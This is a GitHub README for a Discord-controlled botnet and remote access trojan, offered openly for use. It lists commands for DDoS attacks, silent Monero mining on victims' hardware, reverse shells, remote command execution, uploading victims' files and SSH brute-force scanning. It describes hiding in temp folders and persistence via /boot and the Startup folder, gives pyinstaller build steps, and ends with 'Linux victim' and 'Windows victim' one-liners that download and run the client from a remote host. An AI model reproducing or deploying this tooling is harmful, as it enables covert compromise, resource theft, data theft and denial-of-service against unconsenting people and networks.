 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

Need help? https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan) (Bruteforce ip addresses: https://github.com/bntr00t/sshb)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !revshell.< HOSTNAME >@< IP > < IP > < PORT >  (Reverse shell)
* !download.< HOSTNAME >@< IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap vuln scan)

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Supports Linux and Windows platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* Discord botot status Examle= bots: 100
* !webcampic
* ?

# Installation and Build
1- "https://tinyurl.com/HowCreateDiscordBot"

2- git clone https://github.com/rxu7s/pBot.git

3- cd pBot

4- "Edit token and channel id on Client.py"

5- pyinstaller --onefile --noconsole Client.py

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
